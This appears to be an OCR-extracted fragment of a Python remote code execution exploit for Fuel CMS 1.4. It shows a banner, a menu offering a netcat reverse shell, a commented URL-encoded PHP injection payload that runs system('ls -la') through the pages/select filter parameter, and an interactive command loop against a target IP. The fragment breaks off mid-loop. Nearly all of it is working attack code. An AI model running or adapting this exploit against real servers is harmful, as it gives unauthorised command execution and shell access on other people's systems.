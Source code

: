 Tested on 1.4

"""

banner += "Created by Ac1d"

return col.LIGHT\_BLUE + banner + col.RESET

def help():

banner = col.LIGHT\_WHITE + "\n\tMenu\n"

banner += col.LIGHT\_GREEN

banner += "\nexit -\tExit app"

banner += "\nshell\_me -\tGet a reverse shell (netcat) "

banner += "\nhelp -\tShow this help\n"+ col.RESET

return banner

print(banner())

print(help())

\#http://10.10.12.27/fuel/pages/select/?filter=%27%2Bpi(print(%24a%3D%27system%27))%2B%24a(%27ls%20-la%27)%2B%27

if len(sys.argv) != 2:

print("\nUsage: python3 exploit.py Vulnerable IPADDRESS")

sys.exit(0)

IP=sys.argv\[1]

def parsePage(page):

try:

page = page.split("\<h4>A PHP Error was encountered\</h4>")\[0]

page = page.split("\<div")\[0]

page = page\[6:]

return page

except:

return False

try:

while True:

cmd = input(col.LIGHT\_WHITE +"fuelCMS$ " + col.RESET)

if cmd\[0:4].lower() == "exit":

print(col.RED + "Exiting..." + col.RESET)

sys.exit(0)
